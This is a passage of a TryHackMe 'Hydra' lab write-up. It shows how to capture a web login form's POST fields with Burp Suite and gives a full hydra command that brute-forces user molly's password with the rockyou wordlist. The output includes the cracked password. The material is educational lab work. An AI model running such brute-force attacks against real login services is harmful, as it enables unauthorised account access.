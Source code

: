 ```yaml
---
title:  "TryHackMe | Hydra"
layout: post

---
```


### Use Hydra to bruteforce molly's web password. What is flag 1?

we navigate to the box ip address and is presented with a web login form

first use burpsuite to get the http-form-post format

```
username=myname&password=mypass
```

then type in a random password in the login form to get the error message

```
Your username or password is incorrect.
```

pass the above information to hydra to crack the password

```
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.109.118 -t 4 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 01:22:10

[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://10.10.109.118:80/login:username=^USER^&password=^PASS^:F=incorrect
[80][http-post-form] host: 10.10.109.118   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 01:22:31

```

ans: sunshine

### Use Hydra to bruteforce molly's SSH password. What is flag 2?
